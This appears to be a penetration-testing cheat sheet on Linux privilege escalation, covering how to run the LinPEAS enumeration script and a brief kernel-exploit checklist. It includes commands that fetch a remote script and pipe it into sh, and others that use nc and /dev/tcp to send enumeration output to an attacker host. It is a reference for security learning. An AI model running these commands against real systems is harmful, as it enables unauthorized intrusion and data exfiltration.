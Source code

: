 ### <mark style="color:blue;">LinPEAS</mark>

Downlaod from [here](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh).

Run LinPEAS saving colors:

<pre class="language-bash"><code class="lang-bash">./linpeas.sh | tee -a linpeas.out

# Upload the file to Kali
<strong>systemctl stop ssh.socket
</strong>scp /tmp/linpeas.out kali@&#x3C;kali_ip>:/home/kali/Offensive/PGs/
</code></pre>

```bash
# Local network
sudo python -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
```

```bash
# Output to file
./linpeas.sh -a > ./linpeas.out #Victim
less -r /dev/shm/linpeas.txt #Read with colors
```

```bash
# Use a linpeas binary
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64
```

## <mark style="color:red;">Kernel Exploits</mark>

Locating and utilizing kernel exploits is typically a straightforward process:

* Perform enumeration to identify the kernel version (using a command such as "uname -a").
* Search for relevant exploits that match the kernel version on search engines like Google, ExploitDB, or GitHub.
* Compile and execute the exploit, but exercise caution as kernel exploits can be unstable, single-use only, and may cause system crashes.

1. Enumerate the kernel version:

```bash
uname -a
    Linux debian 2.6.32-5-amd64 1 SMP Tue May 13 16:34:35 UTC 2014 x86_64 GNU/Linux
```
